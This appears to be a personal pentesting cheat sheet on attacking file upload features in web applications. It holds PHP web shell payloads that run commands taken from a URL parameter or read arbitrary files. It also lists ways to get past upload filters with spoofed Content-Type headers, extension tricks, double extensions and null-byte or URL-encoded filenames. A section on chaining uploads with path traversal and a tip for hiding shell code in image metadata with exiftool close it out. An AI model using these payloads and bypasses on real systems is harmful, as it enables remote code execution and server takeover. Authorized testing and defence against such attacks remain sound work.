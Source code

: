 
- you can upload PHP files to get RCE (Remote Code Execution) or a Web Shell

```php
<?php echo file_get_contents('/dir/dir/file'); ?>
<?php echo system($_GET['command']); ?>

```


# Bypass filter
```python
- Upload php file then change the Content-Type to image/jpeg or image/png
- use different case - file.pHp
- use extensions such as php5, shtml
- In Apache, a php file might be executed using the double extension technique such as “file.php.jpg” when “.jpg” is allowed.
- use different encoding techniques (null byte, singe and double url encode):
	%2E = .
	%25, %32, %65 = %, 2, 3
	%00 = null byte

	- shell%2E.php
	- shell%25%32%65.php
	- shell.php%00.jpg
	- shell.phpl.jpg



```

![[Pasted image 20221124192425.png]]




# chain attack
```python
- if the application is not validated to restrict executable file upload but restricts the execution of it in specific directory but have a path traversal vulnerability on upload. Upload the executable file (php, etc.) to a different location. Remember to use different encoding techniques to bypass filter.

-
```


# Tools

### Exiftool
```python
- this tool is used to reading, writing, and manipulating image, video, and pdf metadata.
- can be used to insert php code on an image

example:
>> exiftool --comment="shell code here" <filename>

>> exiftool -DocumentName="shell code here" <filename>

```





































